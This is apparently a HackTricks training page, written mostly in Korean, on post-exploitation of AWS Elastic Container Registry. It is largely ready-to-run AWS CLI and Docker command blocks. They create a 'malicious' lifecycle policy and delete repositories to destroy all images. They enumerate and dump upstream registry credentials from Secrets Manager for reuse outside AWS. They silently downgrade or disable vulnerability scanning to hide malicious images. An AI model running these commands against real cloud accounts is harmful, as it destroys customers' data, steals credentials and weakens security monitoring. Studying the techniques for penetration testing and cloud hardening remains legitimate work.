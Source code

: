 # AWS - ECR Post Exploitation

{{#include ../../../../banners/hacktricks-training.md}}

## ECR

자세한 정보는 다음을 확인하세요

{{#ref}}
../../aws-services/aws-ecr-enum.md
{{#endref}}

### Login, Pull & Push
```bash
# Docker login into ecr
## For public repo (always use us-east-1)
aws ecr-public get-login-password --region us-east-1 | docker login --username AWS --password-stdin public.ecr.aws/<random-id>
## For private repo
aws ecr get-login-password --profile <profile_name> --region <region> | docker login --username AWS --password-stdin <account_id>.dkr.ecr.<region>.amazonaws.com
## If you need to acces an image from a repo if a different account, in <account_id> set the account number of the other account

# Download
docker pull <account_id>.dkr.ecr.<region>.amazonaws.com/<repo_name>:latest
## If you still have the error "Requested image not found"
## It might be because the tag "latest" doesn't exit
## Get valid tags with:
TOKEN=$(aws --profile <profile> ecr get-authorization-token --output text --query 'authorizationData[].authorizationToken')
curl -i -H "Authorization: Basic $TOKEN" https://<account_id>.dkr.ecr.<region>.amazonaws.com/v2/<img_name>/tags/list

# Inspect the image
docker inspect sha256:079aee8a89950717cdccd15b8f17c80e9bc4421a855fcdc120e1c534e4c102e0
docker inspect <account id>.dkr.ecr.<region>.amazonaws.com/<image>:<tag> # Inspect the image indicating the URL

# Upload (example uploading purplepanda with tag latest)
docker tag purplepanda:latest <account_id>.dkr.ecr.<region>.amazonaws.com/purplepanda:latest
docker push <account_id>.dkr.ecr.<region>.amazonaws.com/purplepanda:latest

# Downloading without Docker
# List digests
aws ecr batch-get-image --repository-name level2 \
--registry-id 653711331788 \
--image-ids imageTag=latest | jq '.images[].imageManifest | fromjson'

## Download a digest
aws ecr get-download-url-for-layer \
--repository-name level2 \
--registry-id 653711331788 \
--layer-digest "sha256:edfaad38ac10904ee76c81e343abf88f22e6cfc7413ab5a8e4aeffc6a7d9087a"
```
이미지를 다운로드한 후에는 **민감한 정보가 있는지 확인해야 합니다**:

{{#ref}}
https://book.hacktricks.wiki/en/generic-methodologies-and-resources/basic-forensic-methodology/docker-forensics.html
{{#endref}}

### `ecr:PutLifecyclePolicy` | `ecr:DeleteRepository` | `ecr-public:DeleteRepository` | `ecr:BatchDeleteImage` | `ecr-public:BatchDeleteImage`

이 권한들 중 하나라도 가진 공격자는 **리포지토리의 모든 이미지를 삭제하도록 lifecycle policy를 생성하거나 수정**한 다음 **ECR repository 전체를 삭제**할 수 있습니다. 이로 인해 리포지토리에 저장된 모든 컨테이너 이미지가 손실됩니다.
```bash
# Create a JSON file with the malicious lifecycle policy
echo '{
"rules": [
{
"rulePriority": 1,
"description": "Delete all images",
"selection": {
"tagStatus": "any",
"countType": "imageCountMoreThan",
"countNumber": 0
},
"action": {
"type": "expire"
}
}
]
}' > malicious_policy.json

# Apply the malicious lifecycle policy to the ECR repository
aws ecr put-lifecycle-policy --repository-name your-ecr-repo-name --lifecycle-policy-text file://malicious_policy.json

# Delete the ECR repository
aws ecr delete-repository --repository-name your-ecr-repo-name --force

# Delete the ECR public repository
aws ecr-public delete-repository --repository-name your-ecr-repo-name --force

# Delete multiple images from the ECR repository
aws ecr batch-delete-image --repository-name your-ecr-repo-name --image-ids imageTag=latest imageTag=v1.0.0

# Delete multiple images from the ECR public repository
aws ecr-public batch-delete-image --repository-name your-ecr-repo-name --image-ids imageTag=latest imageTag=v1.0.0
```
### Exfiltrate upstream registry credentials from ECR Pull‑Through Cache (PTC)

ECR Pull‑Through Cache가 인증된 upstream registries(Docker Hub, GHCR, ACR 등)에 대해 구성되어 있으면, upstream 자격 증명은 예측 가능한 이름 접두사 `ecr-pullthroughcache/`로 AWS Secrets Manager에 저장됩니다. 운영자는 때때로 ECR 관리자에게 광범위한 Secrets Manager 읽기 권한을 부여하여, 자격 증명 exfiltration 및 AWS 외부에서의 재사용을 가능하게 합니다.

요구 권한
- secretsmanager:ListSecrets
- secretsmanager:GetSecretValue

PTC의 후보 시크릿 열거
```bash
aws secretsmanager list-secrets \
--query "SecretList[?starts_with(Name, 'ecr-pullthroughcache/')].Name" \
--output text
```
발견된 secrets를 덤프하고 공통 필드를 파싱합니다
```bash
for s in $(aws secretsmanager list-secrets \
--query "SecretList[?starts_with(Name, 'ecr-pullthroughcache/')].ARN" --output text); do
aws secretsmanager get-secret-value --secret-id "$s" \
--query SecretString --output text | tee /tmp/ptc_secret.json
jq -r '.username? // .user? // empty' /tmp/ptc_secret.json || true
jq -r '.password? // .token? // empty' /tmp/ptc_secret.json || true
done
```
선택 사항: leaked creds를 upstream에 대해 검증 (read‑only login)
```bash
echo "$DOCKERHUB_PASSWORD" | docker login --username "$DOCKERHUB_USERNAME" --password-stdin registry-1.docker.io
```
Impact
- Secrets Manager 항목을 읽으면 재사용 가능한 업스트림 레지스트리 자격증명 (username/password or token)을 얻을 수 있으며, 이는 업스트림 권한에 따라 AWS 외부에서 private 이미지를 pull하거나 추가 리포지토리에 접근하는 데 악용될 수 있습니다.


### Registry-level stealth: disable or downgrade scanning via `ecr:PutRegistryScanningConfiguration`

레지스트리 수준의 ECR 권한을 가진 공격자는 registry scanning configuration을 BASIC으로 설정하고 scan-on-push 규칙을 제거함으로써 모든 리포지토리에 대한 자동 취약점 스캐닝을 조용히 축소하거나 비활성화할 수 있습니다. 이렇게 하면 새로 푸시된 이미지가 자동으로 스캔되지 않아 취약하거나 악의적인 이미지를 숨길 수 있습니다.

Requirements
- ecr:PutRegistryScanningConfiguration
- ecr:GetRegistryScanningConfiguration
- ecr:PutImageScanningConfiguration (선택 사항, 리포지토리별)
- ecr:DescribeImages, ecr:DescribeImageScanFindings (검증)

Registry-wide downgrade to manual (no auto scans)
```bash
REGION=us-east-1
# Read current config (save to restore later)
aws ecr get-registry-scanning-configuration --region "$REGION"

# Set BASIC scanning with no rules (results in MANUAL scanning only)
aws ecr put-registry-scanning-configuration \
--region "$REGION" \
--scan-type BASIC \
--rules '[]'
```
repo와 이미지로 테스트
```bash
acct=$(aws sts get-caller-identity --query Account --output text)
repo=ht-scan-stealth
aws ecr create-repository --region "$REGION" --repository-name "$repo" >/dev/null 2>&1 || true
aws ecr get-login-password --region "$REGION" | docker login --username AWS --password-stdin ${acct}.dkr.ecr.${REGION}.amazonaws.com
printf 'FROM alpine:3.19\nRUN echo STEALTH > /etc/marker\n' > Dockerfile
docker build -t ${acct}.dkr.ecr.${REGION}.amazonaws.com/${repo}:test .
docker push ${acct}.dkr.ecr.${REGION}.amazonaws.com/${repo}:test

# Verify no scan ran automatically
aws ecr describe-images --region "$REGION" --repository-name "$repo" --image-ids imageTag=test --query 'imageDetails[0].imageScanStatus'
# Optional: will error with ScanNotFoundException if no scan exists
aws ecr describe-image-scan-findings --region "$REGION" --repository-name "$repo" --image-id imageTag=test || true
```
선택 사항: repo 범위에서 추가적으로 권한을 저하시킴
```bash
# Disable scan-on-push for a specific repository
aws ecr put-image-scanning-configuration \
--region "$REGION" \
--repository-name "$repo" \
--image-scanning-configuration scanOnPush=false
```
영향
- 레지스트리 전체에 걸친 새 이미지 푸시가 자동으로 스캔되지 않아 취약하거나 악성인 콘텐츠에 대한 가시성이 감소하고 수동 스캔이 시작될 때까지 탐지가 지연됩니다.


### 레지스트리 전역 스캔 엔진 다운그레이드 `ecr:PutAccountSetting`를 통해 (AWS_NATIVE -> CLAIR)

기본 AWS_NATIVE에서 레거시 CLAIR 엔진으로 BASIC 스캔 엔진을 전환하여 레지스트리 전체의 취약점 탐지 품질을 저하시킬 수 있습니다. 이는 스캐닝을 비활성화하지는 않지만 결과와 커버리지에 실질적 변화를 초래할 수 있습니다. 규칙이 없는 BASIC 레지스트리 스캔 구성과 결합하면 스캔을 수동 전용으로 만들 수 있습니다.

요구 권한
- `ecr:PutAccountSetting`, `ecr:GetAccountSetting`
- (선택 사항) `ecr:PutRegistryScanningConfiguration`, `ecr:GetRegistryScanningConfiguration`

영향
- 레지스트리 설정 `BASIC_SCAN_TYPE_VERSION`이 `CLAIR`로 설정되어 이후의 BASIC 스캔이 다운그레이드된 엔진으로 실행됩니다. CloudTrail은 `PutAccountSetting` API 호출을 기록합니다.

단계
```bash
REGION=us-east-1

# 1) Read current value so you can restore it later
aws ecr get-account-setting --region $REGION --name BASIC_SCAN_TYPE_VERSION || true

# 2) Downgrade BASIC scan engine registry‑wide to CLAIR
aws ecr put-account-setting --region $REGION --name BASIC_SCAN_TYPE_VERSION --value CLAIR

# 3) Verify the setting
aws ecr get-account-setting --region $REGION --name BASIC_SCAN_TYPE_VERSION

# 4) (Optional stealth) switch registry scanning to BASIC with no rules (manual‑only scans)
aws ecr put-registry-scanning-configuration --region $REGION --scan-type BASIC --rules '[]' || true

# 5) Restore to AWS_NATIVE when finished to avoid side effects
aws ecr put-account-setting --region $REGION --name BASIC_SCAN_TYPE_VERSION --value AWS_NATIVE
```
{{#include ../../../../banners/hacktricks-training.md}}
